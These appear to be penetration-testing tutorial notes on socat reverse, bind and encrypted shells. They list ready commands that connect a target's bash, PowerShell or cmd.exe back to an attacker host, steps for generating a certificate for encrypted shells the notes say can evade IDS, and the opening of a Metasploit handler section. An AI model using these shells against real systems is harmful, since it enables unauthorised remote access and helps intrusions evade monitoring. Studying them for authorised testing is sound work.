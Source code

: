 Socat is a connector between two points similar to the portal gun from the Portal games.

The syntax for a basic reverse shell listener in socat: `socat TCP-L:<PORT> -`. This will work on either Linux or Windows and is equivalent to `nc -lvnp <PORT>`.

On Windows use to connect back: `socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes`. The pipes option is used to force powershell or cmd.exe to use Unix style standard input and output.

The equivalent for Linux target: `socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"`.

#### Socat Bind Shells

On a Linux target: `socat TCP-L:<PORT> EXEC:"bash -li"`.

On a Windows target: `socat TCP-L:<PORT> EXEC:powershell.exe,pipes`.

Regardless of the target, we use `socat TCP:<TARGET-IP>:<TARGET-PORT> -` on the attacking machine to connect to the waiting listener.

- For a fully stable Linux tty reverse shell: `socat TCP-L:<PORT> FILE:'tty',raw,echo=0`
- To connect to the listener: `socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane`.
  - `EXEC:"bash -li"` creates an interactive bash session with the arguments: pty, stderr, sigint, setsid, and sane.
    - `pty` allocates a pseudo-terminal on the target - part of the stabilization process.
    - `stderr` makes sure that any error messages get shown in the shell (often a problem in non-interactive shells).
    - `sigint` passes any CTRL+C commands through into the sub-process, allowing us to kill commands inside the shell.
    - `setsid` creates the process in a new session.
    - `sane` stabilizes the terminal, attempting to 'normalize' it.

#### Socat Encrypted Shells

Socat is capable of creating encrypted shells - both bind and reverse. Encrypted shells cannot be spied on unless you have the decryption key and are often able to bypass an IDS as a result.

1. Generate a certificate in order to use encrypted shells on our attacking machine: `openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt`. This command creates a 2048 bit RSA key with a matching cert file, self-signed, and valid for just under a year. It will ask to fill information about the certificate and can be let blank, or filled randomly.
2. Now need to merge the two files into a single `.pem` file: `cat shell.key shell.crt > shell.pem`.
3. Set up our reverse shell listener with `socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0`. This opens up an OPENSSL listener using the generated certificate and `verify=0` tells the connection to not bother trying to validate our certificate has been properly signed by a recognized authority.
   - The certificate must be used on whichever device is listening.
4. Connect back with `socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash`.

The same technique would apply for a bind shell.

- Target: `socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes`
- Attacker: `socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0`
### Metasploit -- multi/handler

The `auxiliary/multi/handler` module of the Metasploit framework is, like socat and netcat, used to receive reverse shells.
